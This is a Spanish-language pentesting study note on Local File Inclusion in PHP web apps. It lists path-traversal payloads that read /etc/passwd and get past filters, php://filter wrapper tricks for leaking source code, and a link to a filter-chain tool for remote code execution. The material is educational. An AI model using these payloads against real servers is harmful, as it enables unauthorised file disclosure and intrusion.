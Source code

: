 # Local File Incrusion (LFI)

La vulnerabilidad **Local File Inclusion** (**LFI**) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web **no valida adecuadamente** las entradas de usuario, permitiendo a un atacante **acceder a archivos locales** en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como “**Path Traversal**” y se utiliza comúnmente en ataques de LFI.

Ejemplo de LFI:

<pre><code>http://IP?filename=/etc/host 

?filename=../../../../../../etc/hosts 
// sanetizado con filtro de busqueda en la ruta /var/www/html

?filename?....//....//....//....//....//etc/hosts 
// en caso de que ../ sea remplazada por un caracter vacio

?filename?../../../../../etc//./hosts 
// en caso de que este filtrado por la ruta ej(/etc/hosts, /etc/passwd) se ponen dos barras // o /./ y sigue funcionando
<strong>
</strong><strong>?filename?../../../../../etc/passwd%00 
</strong><strong>//para versiones de php antiguas
</strong></code></pre>

### Uso de filtro/wrappers

En PHP, un _wrapper_ es un "envoltorio" o interfaz que permite acceder a diferentes tipos de recursos, como archivos locales, flujos de datos (streams), y contenido en red (HTTP, FTP), mediante un esquema común. Los _wrappers_ actúan como capas de abstracción que permiten trabajar con estos recursos de manera unificada, sin preocuparse por los detalles específicos de cada tipo de recurso.

{% hint style="info" %}
Algunos de estos wrappers no funcionan por si la configuracion allow\_url\_include del documento /etc/php/8.3/apache2/php.ini esta desactivada
{% endhint %}

#### php://filter

```
// Convierte el contenido en base64
php://filter/convert.base64-encode/resource=secret.php

// Leer contenido en Base64
echo -n "PD9waHAKCS8vTm8gZGViZXJpYXMgcG9kZXIgdmVybWUgZGFkbyBxdWUgZXN0ZSBjb2RpZ28gZGViZXJpYSBkZSBzZXIgaW50ZXJwcmV0YWRvCgllY2hvICJIb2xhIHF1ZSB0YWwiOwo/Pgo=" | base64 -d

// Convierte el contenido en cifrado cesar//rotacion de 13 posiciones en las letras del abecedario
php://filter/read=string.rot13/resource=secret.php

// Leer el contenido en cifrado cesar
cat data | tr '[c-za-bC-ZA-B]' '[p-za-oP-ZA-O]'
```

#### php:input

<div align="left">

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

</div>

#### data://&#x20;

Encodeamos en base64

<div align="left">

<figure><img src="../../../.gitbook/assets/image (101).png" alt=""><figcaption></figcaption></figure>

</div>

agregamos el comando seguido de data://text/plain,base64,

<figure><img src="../../../.gitbook/assets/image (100).png" alt=""><figcaption></figcaption></figure>

A continuación, se os proporciona el enlace directo a la herramienta que utilizamos al final de esta clase para abusar de los ‘**Filter Chains**‘ y conseguir así ejecución remota de comandos:

* **PHP Filter Chain Generator**: [https://github.com/synacktiv/php\_filter\_chain\_generator](https://github.com/synacktiv/php\_filter\_chain\_generator)
